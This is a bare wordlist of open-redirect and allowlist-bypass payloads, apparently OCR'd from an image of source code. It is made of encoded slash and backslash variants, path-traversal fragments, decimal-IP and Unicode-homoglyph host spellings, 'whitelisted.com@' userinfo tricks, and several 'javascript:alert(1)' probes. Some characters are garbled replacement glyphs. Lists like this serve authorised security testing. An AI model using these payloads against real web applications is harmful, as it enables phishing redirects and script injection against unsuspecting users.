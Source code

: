 216.58.214.206
////Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2e%2e
///Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2e%2e
////Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2e%2e%2f
///Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2e%2e%2f
//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2e%2e%2f
////Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2f..
///Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2f..
//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2f..
%2f216.58.214.206//
%2f216.58.214.206
%2f216.58.214.206%2f%2f
////Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2f%2e%2e
///Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2f%2e%2e
//Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2f%2e%2e
/Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2f%2e%2e
//%2f%2fⓁ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
/%2f%2fⓁ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
%2f$2f216.58.214.206
$2f%2f216.58.214.206%2f%2f
%2f$2f3627734734
$2f%2f3627734734%2f%2f
//%2f%2fgoogle.com
/%2f%2fgoogle.com
$2f%2fgoogle.com
%2f$2fgoogle.com
$2f%2fgoogle.com%2f%2f
%2f3627734734//
%2f3627734734
%2f3627734734%2f%2f
/%2f%5c%2f%67%6f%6f%67%6c%65%2e%63%6f%6d/
/%2f%5c%2f%6c%6f%63%61%6c%64%6f%6d%61%69%6e%2e%70%77/
%2fgoogle.com//
%2fgoogle.com
%2fgoogle.com%2f%2f
////3627734734
///3627734734
//3627734734
/\3627734734
/3627734734
3627734734
//3H6k7lIAiqjfNeN@whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/
//3H6k7lIAiqjfNeN@whitelisted.com+@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/
//3H6k7lIAiqjfNeN@whitelisted.com@google.com/
//3H6k7lIAiqjfNeN@whitelisted.com+@google.com/
////%5cⓁ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
///%5cⓁ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
//%5cⓁ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
/%5cⓁ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
////%5cgoogle.com
///%5cgoogle.com
//%5cgoogle.com
/%5cgoogle.com
//%5cjavascript:alert(1);
//%5cjavascript:alert(1)
/%5cjavascript:alert(1);
/%5cjavascript:alert(1)
////%5cwhitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
///%5cwhitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
//%5cwhitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
/%5cwhitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
////%5cwhitelisted.com@google.com
///%5cwhitelisted.com@google.com
//%5cwhitelisted.com@google.com